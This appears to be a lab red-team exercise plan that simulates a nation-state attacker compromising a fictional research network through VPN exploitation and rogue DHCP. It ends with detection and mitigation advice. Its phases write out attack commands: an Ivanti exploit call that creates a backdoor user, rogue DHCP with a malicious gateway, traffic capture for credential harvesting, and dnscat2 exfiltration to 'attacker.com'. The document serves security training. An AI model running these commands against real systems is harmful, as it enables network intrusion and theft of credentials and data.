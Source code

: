 # Operation DHCP Deception

Objective: Simulate a nation-state adversary subverting VPN integrity and DHCP trust to intercept traffic, harvest credentials, and pivot into protected research resources, culminating in the exfiltration of cryptographic project data.

Scenario: The [MycoSec](entity.md) lab network relies on VPN gateways for remote access and DHCP for address assignment. Development workstations and research servers are segmented but reachable through trusted routing paths. By exploiting a VPN vulnerability and deploying a rogue DHCP service, the adversary reroutes internal traffic, intercepts sensitive communications, and leverages stolen credentials to compromise a high-value research server.

## Adversary profile

- Designation: APT-29 ("Shadow Hydra")
- Level: Nation-state sophistication
- Primary TTPs: 
  - T1190 (Exploit Public-Facing Application)
  - T1040 (Network Sniffing) 
  - T1557 (Adversary-in-the-Middle)
  - T1098 (Account Manipulation)
- Motivation: Steal simulated research data on MycoSec's cryptographic projects by compromising VPN integrity and pivoting to internal resources.

## Phase 1: Reconnaissance (T1590/T1595)

Objective: Identify VPN endpoints, DHCP services, and internal network topology.

1.  Scan for VPN Endpoints:
    ```bash
    nmap -sS -p 443,1194,51820 192.168.1.0/24 -oN vpn_scan.txt
    ```
    - Finding: OpenVPN UDP/1194 and WireGuard UDP/51820 detected at `192.168.1.5`.

2.  Discover DHCP Services:
    ```bash
    nmap -sU -p 67,68 192.168.1.0/24 --script dhcp-discover
    ```
    - Finding: DHCP server at `192.168.1.1` (router).

3.  Map Internal Routes:
    ```bash
    traceroute -n 192.168.2.100  # Internal research server
    ```
    - Finding: Traffic routes via `192.168.1.1` (gateway).

Detection Evasion: Use fragmented packets and random scan delays to avoid SIEM alerts.

## Phase 2: Initial Access (T1190)
Objective: Compromise the VPN gateway using a known vulnerability.

1.  Exploit CVE-2023-46805 (Ivanti VPN Auth Bypass):
    ```bash
    python3 ivanti_exploit.py --target 192.168.1.5 --command "useradd -m backdoor"
    ```
2.  Establish Foothold:
    ```bash
    ssh backdoor@192.168.1.5  # Password: default compromised
    ```
3.  Extract VPN Configs:
    ```bash
    cat /etc/openvpn/server.conf  # Reveals internal IP range: 192.168.2.0/24
    ```

Persistence: Add SSH key to `authorized_keys` for reliable access.

## Phase 3: DHCP Spoofing (T1557)
Objective: Become the rogue DHCP server to hijack traffic.

1.  Deploy Rogue DHCP Server (using `dnsmasq`):
    ```bash
    dnsmasq --interface=eth0 --dhcp-range=192.168.1.100,192.168.1.200,24h \
            --dhcp-option=121,0.0.0.0/0,192.168.1.254  # Malicious gateway
    ```
2.  Force Client Renewals:
    ```bash
    dhcping -s 192.168.1.254 -c 192.168.1.50  # Target research workstation
    ```
3.  Verify Hijacking:
    ```bash
    ip route show  # On target: default via 192.168.1.254 (attacker)
    ```

Impact: 100% of lab VPN traffic now routes through attacker-controlled node.

## Phase 4: Traffic Interception (T1040)
Objective: Decrypt and analyse redirected traffic.

1.  Enable IP Forwarding (maintain stealth):
    ```bash
    sysctl -w net.ipv4.ip_forward=1
    iptables -t nat -A POSTROUTING -j MASQUERADE
    ```
2.  Capture Plaintext Data:
    ```bash
    tcpdump -i eth0 -w intercepted.pcap host 192.168.2.100 and port 80
    ```
3.  Harvest Credentials:
    - Analyse HTTP packets in Wireshark for basic auth strings.

Critical Finding: Simulated credentials `researcher:MycoSec2025!` extracted from HTTP login.

## Phase 5: Lateral Movement (T1021)
Objective: Pivot to the research server (`192.168.2.100`).

1.  SSH Access:
    ```bash
    ssh researcher@192.168.2.100  # Using stolen credentials
    ```
2.  Explore Critical Data:
    ```bash
    find /opt/mycosectest -name "*.pdf" -o -name "*.zip"  # Research archives
    ```
3.  Exfiltrate via DNS Tunneling (evade detection):
    ```bash
    dnscat2 --dns server=attacker.com,port=53 --secret=myco_exfil
    ```

Data Stolen: 2.5 GB of simulated cryptographic research data.

## Defensive Detection & Mitigation

### Detection points
1.  DHCP Snooping Alert: Unauthorized DHCP server detected at `192.168.1.254`.
2.  VPN Auth Anomaly: Multiple failed logins followed by success from unusual IP.
3.  DNS Exfiltration Alert: Unusual DNS query volume to `attacker.com`.

## Mitigations
- Implement DHCP Snooping on network switches to block rogue servers.
- Enforce MFA for VPN access to prevent credential exploitation.
- Segment Networks to restrict lateral movement (e.g., VLANs for research servers).
- Monitor DNS Traffic for anomalous patterns (e.g., high volume of TXT queries).

## Instructor Notes
- Lab Safety: All attacks confined to isolated VLANs (no production risk).
- Tools Provided:
  - `ivanti_exploit.py` (simulated CVE-2023-46805)
  - `dnsmasq` for DHCP spoofing
  - `dnscat2` for exfiltration
- Variants: Try WireGuard instead of OpenVPN to compare exploitation techniques.
